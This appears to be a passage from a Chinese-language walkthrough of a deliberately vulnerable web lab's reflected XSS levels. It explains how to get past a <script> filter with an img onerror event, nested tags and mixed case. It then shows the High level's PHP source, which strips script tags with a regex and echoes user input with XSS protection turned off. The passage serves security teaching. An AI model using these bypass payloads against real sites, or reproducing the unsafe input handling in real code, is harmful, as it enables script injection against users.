 只是简单的过滤了`<script>`标签，可以使用其他的标签绕过，这里因为正则匹配的规则问题，检测到敏感字符就将替换为空（即删除），也可以使用嵌套构造和大小写转换来绕过。

使用其他的标签，通过事件来弹窗，这里有很多就不一一列举了：

**payload1**





none

```none
<img src=x onerror=alert('XSS')>
```

因为过滤规则的缺陷，这里可以使用嵌套构造来绕过：

**payload2**





none

```none
<s<script>cript>alert('XSS')</script>
```

因为正则匹配没有不区分大小写，所以这里通过大小写转换也是可以成功绕过的：

**payload3**





javascript

```javascript
<Script>alert('XSS')</script>
```

## High





php

```php
<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $_GET[ 'name' ] );

    // Feedback for end user
    $html .= "<pre>Hello ${name}</pre>";
}

?>
```
